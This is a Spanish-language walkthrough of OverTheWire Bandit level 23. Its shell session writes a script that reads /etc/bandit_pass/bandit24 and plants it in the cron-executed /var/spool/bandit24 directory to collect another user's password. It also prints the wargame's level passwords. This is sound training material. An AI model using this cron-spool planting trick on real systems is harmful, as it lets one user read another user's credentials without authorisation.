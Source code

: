 # Retos Bandit

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
***Usuario: bandit23
Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
```bash

  Enjoy your stay!
  NOTA: Antes habia creado la carpeta Jager y como aun no se eliminaba el archivo temporar mas tarde regrese y volvi a abrir la misma carpeta.

bandit23@bandit:~$ cd /tmp/Jager
bandit23@bandit:/tmp/Jager$ ls
bandit23@bandit:/tmp/Jager$ ls -la
total 120
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 02:05 .
drwxrwx-wt 86 root     root     114688 Mar  1 03:05 ..
bandit23@bandit:/tmp/Jager$ cat bandit23
cat: bandit23: No such file or directory
bandit23@bandit:/tmp/Jager$ cd bandit23
-bash: cd: bandit23: No such file or directory
bandit23@bandit:/tmp/Jager$ echo "cat /etc/bandit_pass/bandit24  >> /tmp/Jager/PassPlease" > MeinScript.sh
bandit23@bandit:/tmp/Jager$ chmod 777 MeinScript.sh 
bandit23@bandit:/tmp/Jager$ cat MeinScript.sh 
cat /etc/bandit_pass/bandit24  >> /tmp/Jager/PassPlease
bandit23@bandit:/tmp/Jager$ cat /etc/bandit_pass/bandit24 >> /tmp/Jager/PassPlease
cat: /etc/bandit_pass/bandit24: Permission denied
bandit23@bandit:/tmp/Jager$ touch PassPlease 
bandit23@bandit:/tmp/Jager$ chmod 666 PassPlease 
bandit23@bandit:/tmp/Jager$ cp MeinScript.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/MeinScript.sh': Operation not permitted
bandit23@bandit:/tmp/Jager$ cat MeinScript.sh
cat /etc/bandit_pass/bandit24  >> /tmp/Jager/PassPlease
bandit23@bandit:/tmp/Jager$ chmod +x MeinScript.sh 
bandit23@bandit:/tmp/Jager$ touch PassPlease 
bandit23@bandit:/tmp/Jager$ chmod 666 PassPlease 
bandit23@bandit:/tmp/Jager$ ls -la
total 124
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 03:17 .
drwxrwx-wt 99 root     root     114688 Mar  1 03:26 ..
-rwxrwxrwx  1 bandit23 bandit23     56 Mar  1 03:15 MeinScript.sh
-rw-rw-rw-  1 bandit23 bandit23      0 Mar  1 03:25 PassPlease
bandit23@bandit:/tmp/Jager$ cp MeinScript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/Jager$ ls -la
total 124
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 03:17 .
drwxrwx-wt 99 root     root     114688 Mar  1 03:26 ..
-rwxrwxrwx  1 bandit23 bandit23     56 Mar  1 03:15 MeinScript.sh
-rw-rw-rw-  1 bandit23 bandit23      0 Mar  1 03:25 PassPlease
bandit23@bandit:/tmp/Jager$ cat PassPlease 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/Jager$ 

```

## Notas adicionales

## Referencias

